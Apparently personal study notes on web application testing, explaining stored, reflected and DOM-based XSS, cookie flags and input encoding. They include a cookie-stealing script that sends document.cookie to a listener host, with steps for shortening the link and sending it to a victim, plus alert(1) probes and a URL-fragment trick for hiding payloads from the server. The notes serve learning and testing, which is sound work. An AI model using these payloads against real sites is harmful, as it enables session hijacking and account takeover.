 Don't rely on the Burp Suite scanner.

Check to see if it has multiple input fields and if you can change them from matching to not matching while still having the program accept the input.

Basic log in form
```html
<html>
<head>
<title>My Forem</title>
<body>

<div>
<h3> Super Secret Creds</h3>
	<div>
		<form>
				</br>
				Username:
				</br>
				<input type="text" name="Username" value="joe">
				</br>
				Password:
				<input type="password" name="password" value="password">
				</input>
		<form>
	<div>			
				
</div>

</body>
</head>
</html>
```

It should have been body then head in html. I can change this later.

Encoding
will change characters into something else with the same as operation:
```html
Encoding

<script>

<!-- changes the code into something else before it hits the server, but it will still work the same -->
< == &lt:

<!-- What it will look like as it hits the server -->
&lt:/script>
```

Filtering is almost the same but instead of changing it it just deletes it.
Validation is a predefined allow/disallow list, and lastly sanitization is a combination of all of these options. 

---

Look for anywhere on the site that takes input and test out how it responds.

Cookies:
- If HTTP Only flag is not set, it will not be able prevent cookies from being stolen with a document.cookie XSS.
- Secure flag prevents the cookie from being seen in clear text.
- HTTP only and Secure flag should always be set.

---

Comments to the website might be limited, in this case use burpsuite, or see if you can change anything in dev tools to increase message length.

**Stored XSS:** _Malicious code is stored on the website, any user can see it._

- Can be used to steal session cookies, sending it it to an attacker who would them be able to hijack the session, giving them access to the account.  

**Reflected XSS:** _Input is being reflected on the web-page back at the user. The response, unlike stored XSS, is not stored on the server._

- To exploit to vulnerability and steal cookies, you would have to modify the url of the payload, and send it to a victim who would click the link. 

```php
www.example.com/name-reflected/?name=<Payload>
```

Payload

```java
<script> var xhr = new XMLHttpRequest(); xhr.open('GET','http://localhost:1337/${document.cookie}', false); xhr.send(null); </script>
```


1. URL encode the malicious link: https://www.shorturl.at/
2. Start Apache server
3. Send link to the victim

**DOM XSS:** _Document Object Model: HTML representation in memory that is created by the browser. 
1. You can view the DOM in dev-tools inspect tab. 
2. JavaScript is used to give structure to the DOM.
3. If the default parameter has `decodeURI(lang)`, it might be vulnerable to DOM XSS. 

`www.example.com/app/lang/?default=German`

```php
www.example.com/app/lang/?default=<script>alert(1)</script>
```


The client itself is what creates the malicious payload in a DOM based attack. In reflected XSS it's the server that reflects it back to the client. 

**Stored:** Malicious payload is stored on the server and distributed to everyone.
**Reflected:** We create a a request with a malicious payload, then the server return the payload in the response.
**DOM:** The server does not put the payload into the HTML directly, instead the server returns with the applications JavaScript, and it's the initial JavaScript that inserts the malicious payload into the DOM, and then executed. 

Hide the payload from the server by adding a comment.

```php
www.example.com/app/lang/#?default=<script>alert(1)</script>
```

- If using reflected XSS you could use this to hide the request from the server.

**DOM Security:**

1. Session cookies.
2. Content security policy.